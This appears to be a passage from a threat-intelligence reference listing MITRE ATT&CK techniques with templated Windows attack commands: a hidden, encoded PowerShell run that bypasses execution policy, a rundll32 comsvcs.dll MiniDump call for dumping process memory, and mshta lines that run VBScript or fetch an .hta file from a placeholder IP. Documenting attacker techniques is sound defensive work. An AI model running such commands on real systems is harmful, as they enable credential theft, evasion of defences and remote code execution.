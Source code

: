 Obfuscated Files or Information [[T1027](https://attack.mitre.org/techniques/T1027/)]

```
PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand <Base64_encoded_string>
```
<br>

System Binary Proxy Execution: Rundll32 [[T1218.011](https://attack.mitre.org/techniques/T1218/011/)]

```
rundll32 comsvcs.dll,MiniDump <PID> <file_name>.bin full
```
<br>

System Binary Proxy Execution: Mshta [[T1218.005](https://attack.mitre.org/techniques/T1218/005/)]

```
mshta.exe vbscript:(CreateObject("WScript.Shell").Run("<file_name>.exe",0)) (Window.Close)
mshta.exe http[:]//<IP_address>/<file_name>.hta
```
